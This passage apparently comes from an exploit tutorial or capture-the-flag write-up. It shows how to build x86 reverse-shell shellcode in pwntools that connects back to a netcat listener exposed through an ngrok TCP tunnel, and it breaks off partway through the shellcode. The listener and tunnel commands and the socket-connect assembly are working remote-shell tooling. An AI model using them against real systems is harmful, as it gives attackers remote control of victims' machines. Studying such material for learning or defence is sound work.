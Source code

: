 > socketcall can be found here: https://man7.org/linux/man-pages/man2/socketcall.2.html

Then, we need to open 2 terminal, one terminal run the netcat command: `nc -lnvp 54321`, one run ngrok command `ngrok tcp 54321` and the address which we can access outside of LAN is at the line `Forwarding` of ngrok:

![ngrok.png](images/ngrok.png)

To get the ip address of `0.tcp.ngrok.io`, we just simply ping that hostname:

![ping-host-name.png](images/ping-host-name.png)

So we have ip address and port now. Let's continue building our shellcode:

```python
host = args.HOST.split('.')
port = int(args.PORT)
host = u32(b''.join([p8(int(k)) for k in host]))
port = (u16(p16(port)[::-1]) << 16) | 2

shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp        # [2, 1, 0]
    int 0x80
    '''               + 
    f'push {host}\n' + 
    f'push {port}\n' + 
    '''
    mov ecx, esp        # serv_addr: [2, port, host]
    push 0x10
    push ecx
    push 0
    mov al, 0x66        # SYS_SOCKETCALL
    mov bl, 3           # SYS_CONNECT
    mov ecx, esp        # [0, serv_addr, 0X10]
    int 0x80
```
